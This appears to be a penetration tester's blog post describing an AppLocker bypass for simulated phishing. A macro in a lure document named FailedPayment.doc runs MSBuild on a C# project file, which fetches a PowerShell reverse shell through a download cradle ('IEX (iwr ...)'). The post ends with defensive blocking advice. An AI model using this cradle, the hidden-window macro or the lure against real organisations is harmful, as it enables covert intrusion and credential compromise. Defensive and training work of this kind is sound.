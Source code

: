 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: true
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }


### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and so simulated phishing campaigns and user awareness training are extremely important. However, there can never be complete assurance against credential divulgence or execution of malicious code via crafted (or not so crafted) phishing attacks, and so it is critical that organisations implement a multi-layered "defence in depth" strategy. Application Whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. Commonly, the default AppLocker rules (listed below) are applied.


![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }


Since Powershell has gained recognition for being the attacker's language of choice, organisations are increasingly blocking it. However, blocking powershell.exe alone is not sufficient as there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with (as Casey Smith puts it) the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with Default Rules and has also blocked powershell.exe.


![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }


However, assuming that MSBuild.exe is allowed, we can have it execute a ".csproj" (Visual Studio .NET C# Project file) and instantiate a Powershell runspace using the System.Management.Automation.dll assembly. The powashell.csproj file below by Casey Smith ([@SubTee](https://twitter.com/subtee)) builds upon Jared Atkinson's ([@jaredcatkinson](https://twitter.com/jaredcatkinson)) and Justin Warner's ([@sixdub](https://twitter.com/sixdub)) work.


<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>


This executes the second stage of our payload via a PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>


Good. Now we need a means of delivering the project file and executing MSBuild. The macro below will do just this.


<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>


The `WindowType` parameter of the Shell function has been set to `vbHide` in order to avoid calling attention to our activities. Now, in order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert ([@JohnLaTwC](https://twitter.com/johnlatwc)) regularly shares interesting phishing lures and payloads, if you need inspiration for your simulated phishing campaigns. The "Document created in newer/older Office version" lure is one I find especially convincing. John has also put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different techniques attackers use.

Our FailedPayment.doc lure:

![lure]({{ site.url }}/images/phishing-lure.png){: .center-image }


Now that the "malicious" document has been created we can test it out.

Once the user opens the document and enables macros, our powashell.csproj is downloaded for MSBuild to execute, which in turn downloads and executes the Powershell reverse shell one-liner. All completely invisible to the user.


![rules]({{ site.url }}/images/shell.png){: .center-image }


We can see that this payload is also an effective means of bypassing PowerShell Contrained Language mode.

This is not a particularly stealthy attack as the .csproj is written to disk, and no attempt was made to obfuscate any part of the payload.

Hopefully, this example highlights the danger of "misplaced trust" binaries such as MSBuild. Companies should block their use unless explicitely required for certain users (e.g. developers).

Oddvar Moe ([@Oddvarmoe](https://twitter.com/oddvarmoe)) maintains an excellent [collection](https://github.com/api0cradle/UltimateAppLockerByPassList) of AppLocker bypass techniques, which is a good list of the "misplaced trust" binaries that IT departments should consider blocking.

Additionally, if a company has decided to block PowerShell using Application Whitelisting, then the following PowerShell binaries and assemblies should be part of the exception block list.

<script src="https://gist.github.com/egre55/61b6cd2b23b605e6a017e81e5cb97f3e.js"></script>


Even after blocking the above, there are multiple methods an attacker could use to instantiate a Powershell runspace, for example by downloading a custom binary to one of the writable and executable folders within Windows that AppLocker Default Rules has whitelisted. On my computer, these are:

<script src="https://gist.github.com/egre55/47186f7a22de177af4785e80fc2dcb41.js"></script>

Companies should also consider blocking macros for users who don't need this functionality, and consider crafting a custom whitelisting policy, mindful of the permissiveness of Default Rules.

Ultimately, an "assume breach" mentality is paramount, but before compromise we have to make it as hard as possible for an attacker to gain that initial foothold.
